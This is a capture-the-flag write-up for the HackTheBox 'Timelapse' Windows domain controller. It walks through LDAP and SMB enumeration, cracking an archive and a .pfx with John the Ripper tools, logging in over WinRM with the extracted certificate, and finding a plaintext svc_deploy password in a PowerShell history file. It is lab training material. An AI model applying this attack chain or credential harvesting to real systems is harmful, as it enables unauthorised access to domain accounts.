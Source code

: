 ```
| schemaNamingContext: CN=Schema,CN=Configuration,DC=timelapse,DC=htb  
| namingContexts: DC=timelapse,DC=htb  
| namingContexts: CN=Configuration,DC=timelapse,DC=htb  
| namingContexts: CN=Schema,CN=Configuration,DC=timelapse,DC=htb  
| namingContexts: DC=DomainDnsZones,DC=timelapse,DC=htb  
| namingContexts: DC=ForestDnsZones,DC=timelapse,DC=htb  
| isSynchronized: TRUE  
| highestCommittedUSN: 131212  
| dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb  
| dnsHostName: dc01.timelapse.htb  
| defaultNamingContext: DC=timelapse,DC=htb  
| currentTime: 20220817061937.0Z  
|_ configurationNamingContext: CN=Configuration,DC=timelapse,DC=htb
```
=> Machine's FQDN is dc01.timelapse.htb

### SMB
Enumerating shares gives us a share accessible by guest.
We retrieve a password protected zip file : `winrm_backup.zip`

## User 
User is a succession of password bruteforcing using JTR:
	- `zip2john` for the archive password
		- `zip2john winrm_backup.zip > zip_hash`
	- `pfx2john` for the `legacyy_dev_auth.pfx` file that was inside the archive
	- We can force the .pfx file using `pfx2jhon`
Finally, when can retrieve a `.pem` file with openssl from the .pfx using: 
	`openssl pkcs12 -in legacyy_dev_auth.pfx -out key.pem`

Splitting the key.pem into to files `legacyy.cert` and `legacyy.key` we can successfully connect to the machine using evil-winrm:
`evil-winrm -S -c legacyy.cert -k legacyy.key -i 10.10.11.152`

Upon connecting we can retrieve the user flag.

### LPE
No lateral movement is need in this box.
Using winPEAS we discover that a CLI history file was left by the user legacy
```
> type C:\Users\legacyy\...\PSReadLine\ConsoleHost_history.txt 
whoami  
ipconfig /all  
netstat -ano |select-string LIST  
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck  
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force  
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)  
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}  
get-aduser -filter * -properties *  
exit
```
